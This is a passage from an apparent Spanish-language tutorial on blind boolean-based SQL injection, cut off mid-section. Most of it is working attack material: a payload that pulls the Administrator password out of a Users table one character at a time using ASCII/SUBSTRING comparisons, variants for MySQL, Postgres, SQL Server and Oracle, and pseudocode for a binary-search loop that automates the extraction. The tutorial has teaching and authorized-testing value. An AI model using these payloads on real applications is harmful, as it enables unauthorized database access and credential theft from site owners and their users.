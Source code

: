 Donde `109` es ASCII de `m`. Usando `ASCII()` reduces comparaciones de texto a comparaciones numéricas.

**Beneficio:** búsqueda binaria sobre 95 caracteres toma ~7 comparaciones (log2(95) ≈ 7) en vez de ~95.

---

## 6) Uso de ASCII/ORD para comparaciones numéricas (más robusto)

En lugar de comparar caracteres directamente (pueden depender de collation), usa `ASCII()` (MySQL/Postgres) o `ASCII()`/`UNICODE()` (SQL Server) para obtener el código numérico del carácter:

* **MySQL / Postgres:** `ASCII(SUBSTRING(...,1,1))` → devuelve número.
* **SQL Server:** `ASCII(SUBSTRING(...,1,1))` también funciona.
* **Oracle:** usar `ASCII(SUBSTR(...,1,1))`.

Payload para probar si primer carácter tiene ASCII > 109:

```
xyz' AND ASCII(SUBSTRING((SELECT Password FROM Users WHERE Username='Administrator'),1,1)) > 109--
```

Si true → carácter > 'm'.

---

## 7) Extraer palabra completa: bucle sobre posiciones

Pseudocódigo lógico (automatizable):

```
for pos in 1..max_len:
  lo = 32; hi = 126   # rango ASCII imprimible
  while lo <= hi:
    mid = (lo+hi)//2
    payload = "' AND ASCII(SUBSTRING((SELECT Password FROM Users WHERE Username='Administrator'),{},1)) > {} --".format(pos, mid)
    if response_shows_true(payload):
      lo = mid + 1
    else:
      hi = mid - 1
  char = chr(lo)  # o hi, según convención
  if char == '\0' or char == terminator: break
  append char to password
```

Esto reduce significativamente el número de peticiones por carácter.

---

## 8) Manejo de longitudes y límites

* Si no conocés la longitud, puedes detectar el final cuando `SUBSTRING(..., pos, 1)` devuelve `''` o `NULL` o cuando una comparación siempre falla. Otra técnica es probar `LENGTH()` o `LEN()` con booleanos:
